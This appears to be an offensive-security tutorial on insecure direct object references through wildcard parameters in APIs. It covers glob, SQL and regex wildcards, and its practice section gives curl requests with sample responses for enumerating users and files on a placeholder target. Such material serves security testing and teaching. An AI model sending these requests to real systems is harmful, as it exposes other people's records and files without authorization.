 ```yaml
---
title: Wildcard Parameter Exploitation in APIs
description: Learn how wildcard parameters in APIs can lead to insecure direct object
  references, exposing unauthorized data.
keywords:
- Wildcard Parameters
- Insecure Direct Object References
- APIs
- Unauthorized Data Exposure
- Wildcard Enumeration
- Glob Patterns
- SQL Wildcards
- Directory Traversal
---
```


# Wildcard Parameter

## Context

This article delves into the exploitation of insecure direct object references (IDOR) via wildcard parameters in web applications and APIs. To fully grasp the concepts and techniques discussed here, familiarity with HTTP methods, REST API endpoints, and standard authorization mechanisms is assumed.

## Theory

### Wildcard Parameters in Web Applications

Wildcard parameters are input elements in web applications or APIs that can accept wildcard characters, such as *, %, or ?. These are used to match multiple resources in a single query. While intended for functionalities like batch processing or broad searches, they can inadvertently lead to vulnerabilities when improperly validated.

APIs often interpret such wildcards as instructions to enumerate or return multiple objects. For example, an endpoint designed to retrieve a single user resource might instead list all users if a wildcard is provided. This can result in unauthorized data access or exposure.

The reckless enabling of wildcard parameters without rigorous validation creates a vulnerability model where broader data sets can be exposed unintentionally, making it pivotal to scrutinize their usage in secure application development.

### Attack Surface: Wildcard Enumeration and Unauthorized List Exposure

The attack typically begins when an attacker submits a wildcard parameter to an endpoint expecting a specific object ID. If the server interprets this parameter as a request to access multiple or all objects, it may respond by returning significant amounts of sensitive data.

This vulnerability is often magnified by a lack of per-object authorization checks when handling wildcard or glob patterns. Without these controls, the application might not appropriately restrict access to resources based on user permissions.

### Common Wildcard Patterns and Bypass Techniques

Various wildcard patterns can be exploited in applications:

- **Glob Wildcards:** Characters like *, ?, or ranges [a-z] are used.
- **SQL Wildcards:** Characters such as %, which matches any string of zero or more characters, and _, which matches a single character.
- **Regex Wildcards:** Patterns like .*, which matches any character sequence.

APIs accepting these patterns in path or query parameters might unintentionally allow users to bypass intended access controls. Endpoints utilizing filesystem or database globbing may fail to correctly process user-supplied wildcards, leading to potential data exposure.

## Practice

### Wildcard Parameter Enumeration via REST API

To enumerate users through an API utilizing wildcard parameters, perform the following steps:

- **Step 1: Submit Request with Wildcard**

    Use `curl` to send a GET request to an API endpoint, incorporating a wildcard in the object ID:

    ```bash
    curl -i -X GET 'https://target/api/users/*'
    ```

    This attempts to enumerate all users by using a wildcard instead of a specific ID.

- **Step 2: Analyze Response**

    The server responds similarly to:

    ```text
    HTTP/1.1 200 OK
    [
      {"id":1,"username":"admin"},
      {"id":2,"username":"user1"},
      ...
    ]
    ```

    This response indicates that the wildcard was expanded and multiple user objects were returned.

**Outcome:** By exploiting this wildcard enumeration, an attacker gains unauthorized access to multiple user records.

### Wildcard Parameter Bypass Using SQL Wildcards

To exploit SQL wildcards in a query parameter:

- **Step 1: Submit Query with SQL Wildcard**

    Access an API endpoint with a SQL wildcard to retrieve files:

    ```bash
    curl -i -X GET 'https://target/api/files?id=%'
    ```

    The use of % attempts to retrieve all files from the database endpoint.

- **Step 2: Analyze Response**

    The server's response:

    ```text
    HTTP/1.1 200 OK
    [
      {"id":101,"filename":"secret.pdf"},
      {"id":102,"filename":"report.docx"},
      ...
    ]
    ```

    This confirms that the API treated the % as a request to return all matching file objects.

**Outcome:** Using a SQL wildcard, an attacker can retrieve unauthorized files.

### Wildcard Directory Traversal via Path Parameter

For directory traversal using a wildcard path:

- **Step 1: Use Directory Wildcard**

    Initiate a GET request targeting an API meant for file downloads, appending a wildcard:

    ```bash
    curl -i -X GET 'https://target/api/download/*'
    ```

    This attempts to download all files within the specified directory path.

- **Step 2: Analyze Response**

    Expected server response:

    ```text
    HTTP/1.1 200 OK
    [
      {"filename":"config.yml"},
      {"filename":"db.sqlite"},
      ...
    ]
    ```

    The wildcard expanded to multiple files within the directory.

**Outcome:** An attacker can download multiple files without proper authorization using directory wildcard traversal.

## Tools

- **curl**
- **Burp Suite**